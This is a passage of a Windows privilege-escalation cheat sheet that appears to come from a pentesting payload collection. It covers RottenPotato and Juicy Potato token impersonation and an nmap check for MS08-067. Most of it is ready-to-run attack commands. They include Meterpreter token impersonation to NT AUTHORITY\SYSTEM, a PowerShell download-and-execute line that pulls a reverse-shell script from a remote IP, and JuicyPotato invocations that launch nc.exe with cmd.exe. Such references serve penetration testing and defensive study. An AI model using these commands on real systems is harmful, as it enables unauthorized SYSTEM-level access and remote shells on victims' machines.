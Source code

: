 EoP - Impersonation Privileges

RottenPotato \(Token Impersonation\)

Binary available at : https://github.com/foxglovesec/RottenPotato Binary available at : https://github.com/breenmachine/RottenPotatoNG

getuid
getprivs
use incognito
list\\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\\_token "NT AUTHORITY\SYSTEM"

Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit \| Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX \(New-Object Net.WebClient\).DownloadString\('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1'\);\"};"

Juicy Potato \(abusing the golden privileges\)

Binary available at : https://github.com/ohpe/juicy-potato/releases

	1. Check the privileges of the service account, you should look for SeImpersonate and/or SeAssignPrimaryToken\(Impersonate a client after authentication\)
whoami /priv

	2. Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object

		○ Windows 7 Enterprise

		○ Windows 8.1 Enterprise

		○ Windows 10 Enterprise

		○ Windows 10 Professional

		○ Windows Server 2008 R2 Enterprise

		○ Windows Server 2012 Datacenter

		○ Windows Server 2016 Standard

	3. Execute JuicyPotato to run a privileged command.
juicypotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
juicypotato.exe -l 1340 -p C:\users\User\rev.bat -t \* -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
\# -l : local listener port

EoP - Common Vulnerabilities and Exposure

MS08-067 \(NetAPI\)

Check the vulnerability with the following nmap script.

nmap -Pn -p445 --open --max-hostgroup 3--script smb-vuln-ms08-067 &lt;ip\_netblock&gt;

Metasploit modules to exploit MS08-067 NetAPI.
